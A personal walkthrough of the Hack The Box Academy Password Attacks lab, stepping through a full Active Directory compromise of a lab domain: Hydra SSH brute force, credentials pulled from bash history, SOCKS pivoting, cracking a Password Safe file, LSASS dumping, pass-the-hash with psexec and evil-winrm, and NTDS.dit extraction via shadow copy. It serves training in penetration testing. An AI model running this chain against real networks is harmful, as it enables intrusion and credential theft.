




## 01. Intro
I was doing the Password Attacks lab in hackthebox academy and I found it pretty interesting so I figured I would redo it and step through how I did it and my thought process to help solidify concepts and because I enjoyed this one, even though it was a bit frustrating initially.

## 02. Gathering Initial Info
 To start this engagement we know a couple things. We have a user Betty Jade that works at  Nexura LLC. We also have a password for the user `Texas123!@#` with a reasonable assumption that she reuses passwords. We also have the scope of this engagement with the following devices:
|Host|IP Address|
|---|---|
|DMZ01|10.129.39.174, 172.16.119.13|
|JUMP01|172.16.119.7|
|FILE01|172.16.119.10|
|DC01|172.16.119.11|



## 03. Scanning the External Device
Since only one device in this network is publicly accessible, we can give it a quick scan to see what ports we have available for remote access. 
```
th@ddeu$ nmap -sS -p 21-23,80,135,443,445,3389,5985,5986,8080 -T4 -oA dmz01_scan 10.129.39.174

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-16 12:25 CDT
Nmap scan report for 10.129.39.174
Host is up (0.012s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
80/tcp   closed http
135/tcp  closed msrpc
443/tcp  closed https
445/tcp  closed microsoft-ds
3389/tcp closed ms-wbt-server
5985/tcp closed wsman
5986/tcp closed wsmans
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```
## 04. Gaining Initial Access
From here we can see that SSH is open. Since we have a possible password but no username. We can create a list of possible usernames based on the name Betty Jayde using [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy) and brute forcing the resulting usernames using [Hydra](https://www.kali.org/tools/hydra/)
```
th@ddeu$ git clone https://github.com/urbanadventurer/username-anarchy.git
th@ddeu$ cd username-anarchy
th@ddeu$ ./username-anarchy Betty Jade > /tmp/bjade.txt
th@ddeu$ hydra -L /tmp/bjade.txt -p 'Texas123!@#' ssh://10.129.39.174
--SNIP--
[22][ssh] host: 10.129.39.174   login: jbetty   password: Texas123!@#
--SNIP--
```
Now we that we have a valid username and password we can log into the machine to verify access. 
```
th@ddeu$ ssh jbetty@10.129.39.174
jbetty@DMZ01:~$ 
```
At this point we can see that we are on an Ubuntu 20.04 server. The user has no sudo privilges and if we do a list of the files available to this user we can see the following standard files
```
jbetty@DMZ01:~$ sudo -l
[sudo] password for jbetty: 
Sorry, user jbetty may not run sudo on DMZ01.

jbetty@DMZ01:~$ ll
total 32
drwxr-xr-x 4 jbetty jbetty 4096 Jun  2 08:17 ./
drwxr-xr-x 4 root   root   4096 May 30 11:35 ../
-rw-r--r-- 1 jbetty jbetty 2139 Jun  2 08:19 .bash_history
-rw-r--r-- 1 jbetty jbetty  220 Apr 29 13:20 .bash_logout
-rw-r--r-- 1 jbetty jbetty 3771 Apr 29 13:20 .bashrc
drwx------ 2 jbetty jbetty 4096 May 30 11:35 .cache/
drwxrwxr-x 3 jbetty jbetty 4096 May 30 11:35 .local/
-rw-r--r-- 1 jbetty jbetty  807 Apr 29 13:20 .profile
```
Of these files, the only thing I can really think of to do is checking the bash history for any commands the user has run and maybe the profile files to see any potential startup scripts or environment variables of note
```
jbetty@DMZ01:~$ less -N .bash_history 
--SNIP--
     25 sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
--SNIP--
     40 ssh user@192.168.0.101
     41 scp file.txt user@192.168.0.101:~/Documents/
--SNIP--
     64 sudo adduser testuser
     65 sudo usermod -aG sudo testuser
     66 su - testuser
--SNIP--
```
## 05. Pivoting out of the DMZ
The testuser line seemed pretty interesting as we could potentially use that to get root access to this machine, unfortunately that user no longer exists. Next the 192.168.0.101 machine is out of scope. Lastly we can see potential credentials to FILE01, which is in scope. So when I first tried to go about this, i spent too much time trying to escalate privileges on this machine so that i could use [chisel](https://github.com/jpillora/chisel) or to be able to ssh tunnel since that was locked down. Turns out all i needed to do was use the built in SSH SOCKS5 Proxy and proxychains my traffic through to the target machines. 
```
th@ddeu$ ssh -D 9050 jbetty@10.129.39.174
th@ddeu$ sudo vim /etc/proxychains.conf
# ENSURE YOUR CONFIG HAS THE FOLLOWING
--SNIP--
[ProxyList]
socks5 127.0.0.1 9050
--SNIP--
# THIS NEXT COMMAND WILL TAKE A SEC, GO DRINK WATER
th@ddeu$ sudo proxychains nmap -Pn -sT -p 21-23,80,135,443,445,3389,5985,5986,8080 -T4 -oA internal_scan 172.16.119.7 172.16.119.10 172.16.119.11 
--SNIP--
     21 RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
     22 Nmap scan report for 172.16.119.7
     33 3389/tcp open   ms-wbt-server
     34 5985/tcp open   wsman
     37 
     38 Nmap scan report for 172.16.119.10
     46 135/tcp  open   msrpc
     48 445/tcp  open   microsoft-ds
     49 3389/tcp open   ms-wbt-server
     50 5985/tcp open   wsman
     53 
     54 Nmap scan report for 172.16.119.11
     62 135/tcp  open   msrpc
     64 445/tcp  open   microsoft-ds
     65 3389/tcp open   ms-wbt-server
     66 5985/tcp open   wsman
```
## 06. Gaining Access to FILE01
Lets Focus on the ports that we have open on FILE01, we can see that we can access this machine a few different ways, lets try the least intrusive method of checking the shares available first, and maybe connecting through psexec, we can also try to RDP but i typically save that for a last resort.
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\hwilliam%dealer-screwed-gym1" -L //172.16.119.10
--SNIP--
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HR              Disk      
        IPC$            IPC       Remote IPC
        IT              Disk      
        MANAGEMENT      Disk      
        PRIVATE         Disk      
        TRANSFER        Disk    
--SNIP--

th@ddeu$ sudo proxychains impacket-psexec NEXURA/hwilliam:dealer-screwed-gym1@172.16.119.10
--SNIP--
[*] Requesting shares on 172.16.119.10.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share HR
[*] Uploading file YDuMZAjX.exe
[*] Opening SVCManager on 172.16.119.10.....
[-] Error opening SVCManager on 172.16.119.10.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
--SNIP--


th@ddeu$ proxychains xfreerdp /v:172.16.119.10 /d:nexura.htb /u:hwilliam /p:'dealer-screwed-gym1' /cert:ignore /dynamic-resolution /drive:linux,/home/th/filetransfer
--SNIP--
[14:04:26:177] [315880:315882] [ERROR][com.freerdp.core.transport] - BIO_read returned a system error 0: Success
[14:04:26:177] [315880:315882] [ERROR][com.freerdp.core] - transport_read_layer:freerdp_set_last_error_ex ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.119.10:3389  ...  OK
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core.transport] - BIO_read returned a system error 0: Success
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core] - transport_read_layer:freerdp_set_last_error_ex ERRCONNECT_CONNECT_TRANSPORT_FAILED [0x0002000D]
[14:04:27:629] [315880:315882] [ERROR][com.freerdp.core] - freerdp_post_connect failed

```
As we can see our remote access attempts did not work, so were just gonna take a look around the shares to see if theres anything of interest there. In the interest of time. This is an unprivileged user so i couldnt access the C$ or ADMIN$ shares so in the interest of brevity im gonna skip to the one that actually worked. 
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\hwilliam%dealer-screwed-gym1" //172.16.119.10/HR
smb: \> dir                                                                                    
  .                                   D        0  Wed Jul 16 13:58:02 2025
  ..                                  D        0  Wed Jul 16 13:58:02 2025
  2024                                D        0  Tue Apr 29 11:08:16 2025
  2025                                D        0  Tue Apr 29 11:07:24 2025    
  Archive                             D        0  Tue Apr 29 11:10:24 2025
smb: \> cd Archive                    
smb: \Archive\> dir                                                                         
--SNIP--                 
  Employee-Passwords_OLD.plk          A       48  Tue Apr 29 10:13:43 2025
  Employee-Passwords_OLD.psafe3       A     1080  Tue Apr 29 10:09:57 2025                     
  Employee-Passwords_OLD_011.ibak      A      856  Tue Apr 29 10:10:02 2025
  Employee-Passwords_OLD_012.ibak      A      904  Tue Apr 29 10:10:04 2025
  Employee-Passwords_OLD_013.ibak      A      952  Tue Apr 29 10:10:07 2025
--SNIP--
smb: \Archive\> mget Employee-Passwords*
```
From here, doing some research into the psafe3 filestype uncovers a 2john tool that we can use on the file to extract hashes for cracking
```
th@ddeu$ pwsafe2john ./Employee-Passwords_OLD.psafe3 > /tmp/employee_psafe.txt
th@ddeu$ john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/employee_psafe.txt
--SNIP--
michaeljackson   (Employee-Passwords_OLD)   
--SNIP--
th@ddeu$ sudo apt install passwordsafe
th@ddeu$ 
```
From here we have to download the app and open the gui to copy and paste out the passwords.  \

  \
The resulting creds are as follows
```
#DMZ01
## jbetty / xiao-nicer-wheels5
#Domain Users
## bdavid / caramel-cigars-reply1
## stom / fails-nibble-disturb4
## hwilliam / warned-wobble-occur8
```
## 07. Gaining Access to JUMP01
Taking a look ath these creds, the only ones that are still valid are bdavid's unfortunately his credentials dont give us access to any files of interest
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\bdavid%caramel-cigars-reply1" -L //172.16.119.10
--SNIP--

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HR              Disk      
        IPC$            IPC       Remote IPC
        IT              Disk      
        MANAGEMENT      Disk      
        PRIVATE         Disk      
        TRANSFER        Disk   
--SNIP--
```
From here we can use our newly found credentials to attempt remote access to the other machines. For brevity's sake im going to omit the numerous failed attempts, but i tried psexec and xfreerdp on both other machines with both sets of credentials, and was able to get on to the JUMP01 server with bdavid via rdp.
```
th@ddeu$ proxychains xfreerdp /v:172.16.119.7 /d:nexura.htb /u:bdavid /p:'caramel-cigars-reply1' /cert:ignore /dynamic-resolution /drive:linux,/home/$USER/filetransfer
```
A quick check shows us that bdavid is allowed to launch an administrative shell which makes our lives a lot easier. At this point we can upload mimikatz if we would like, but i wanted to try the method of dumping LSASS since for some reason it wouldnt work for me in the earlier labs using the GUI method in Task Manager

The resulting dump was in `C:\Users\bdavid\AppData\Local\Temp\lsass.DMP` which I could move back to my machine using the drive that i mounted in the RDP command. With that out of the way I can grab new credentials using pypykatz. This is a pretty long file, but the lines of interest are here. Now we have a hash for stom
```
th@ddeu$ pypykatz lsa minidump lsass.DMP | less -N
--SNIP--
     76         == MSV ==
     77                 Username: JUMP01$
     78                 Domain: NEXURA
     79                 LM: NA
     80                 NT: fa04a67f5a8620d4ce87238f139a992b
     81                 SHA1: 8d45e4af84cfe51b8a6f8f483e955f0b0f281abc
     82                 DPAPI: 0000000000000000000000000000000000000000
--SNIP--
    293         == MSV ==
    294                 Username: stom
    295                 Domain: NEXURA
    296                 LM: NA
    297                 NT: 21ea958524cfd9a7791737f8d2f764fa
    298                 SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
    299                 DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
--SNIP--
```
At this point we only have the hash and if we cant PTH with RDP unless we enable restricted admin mode, so we will have to try other methods of gaining access to the domain controller. At this point i was going to try psexec or evil-winrm and psexec is a lot easier so i went with that then i enabled restricted admin mode and conected to the machine via RDP.
## 08. Gaining Access to DC01
```
th@ddeu$ sudo proxychains impacket-psexec NEXURA/stom@172.16.119.10 -hashes :21ea958524cfd9a7791737f8d2f764fa
--SNIP--
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

th@ddeu$ proxychains xfreerdp /v:172.16.119.7 /d:nexura.htb /u:stom /pth:'21ea958524cfd9a7791737f8d2f764fa' /cert:ignore /dynamic-resolution /drive:linux,/home/$USER/filetransfer
```
This did not work so im going to back out and use evil-winrm to connect to the machine
```
th@ddeu$ sudo apt install krb5-user
th@ddeu$ sudo vim /etc/krb5.conf
# MAKE SURE YOUR CONF HAS THE FOLLOWING
--SNIP--
     default_realm = NEXURA.HTB
--SNIP--
[realms]
     NEXURA.HTB = {
          kdc = DC01.NEXURA.HTB
     }
--SNIP--
th@ddeu$ sudo vim /etc/hosts
--SNIP--
#MAKE SURE YOUR FILE HAS THE FOLLOWING
172.16.119.11 DC01 dc01 DC01.NEXURA.HTB dc01.nexura.htb NEXURA.HTB nexura.htb
--SNIP--
th@ddeu$ proxychains evil-winrm -i DC01 -u stom -H 21ea958524cfd9a7791737f8d2f764fa 
*Evil-WinRM* PS C:\Users\stom\Documents> 
```
Now that we have access to the system we can try to grab the SYSTEM and ntds.dit files to dump them and get the administrator hash that we need to pass this lab.We can do this most easily by just creating a volume shadow copy and copying the files to our local system

```
*Evil-WinRM* PS C:\Users\stom\Documents> vssadmin CREATE SHADOW /for=C: 
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool                           
(C) Copyright 2001-2013 Microsoft Corp.                                
Successfully created shadow copy for 'C:\'                                                               
    Shadow Copy ID: {1a19cedf-7113-402f-a03a-cfc2bf69bb9c}                                Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1 

*Evil-WinRM* PS C:\Users\stom\Documents> cmd.exe /C copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\NTDS.dit

*Evil-WinRM* PS C:\Users\stom\Documents> cmd.exe /C copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\SYSTEM C:\SYSTEM
# THIS TAKES A WHILE
*Evil-WinRM* PS C:\Users\stom\Documents> download C:\ntds.dit
*Evil-WinRM* PS C:\Users\stom\Documents> download C:\SYSTEM
```
## 09. Cracking the creds
Finally we can use secretsdump to grab the hash we need for this challenge
```
th@ddeu$ impacket-secretsdump -ntds ./NTDS.dit -system ./SYSTEM LOCAL                                                                                                                
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x76b4393403c75a0cb93633c17abf2778                                        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9bf8b490fffee672ecfe3bc67e0daf69
[*] Reading and decrypting hashes from ./NTDS.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:9d80cee28b2e985285a43a7c4eb3122c:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:11dee8f685882eb4f78a450291569bd0:::
nexura.htb\bdavid:1105:aad3b435b51404eeaad3b435b51404ee:82c5ef7f2612567964070d04fe46a5d0:::
nexura.htb\stom:1106:aad3b435b51404eeaad3b435b51404ee:21ea958524cfd9a7791737f8d2f764fa::: 
nexura.htb\hwilliam:1107:aad3b435b51404eeaad3b435b51404ee:f3ac86b290a51fb59a1a66f50b658e1f:::
FILE01$:1108:aad3b435b51404eeaad3b435b51404ee:b7374a9de2bf6951a5c66a7675df7f2f:::
JUMP01$:1109:aad3b435b51404eeaad3b435b51404ee:7bef0ee0b472d2c5805921324525f321:::

```
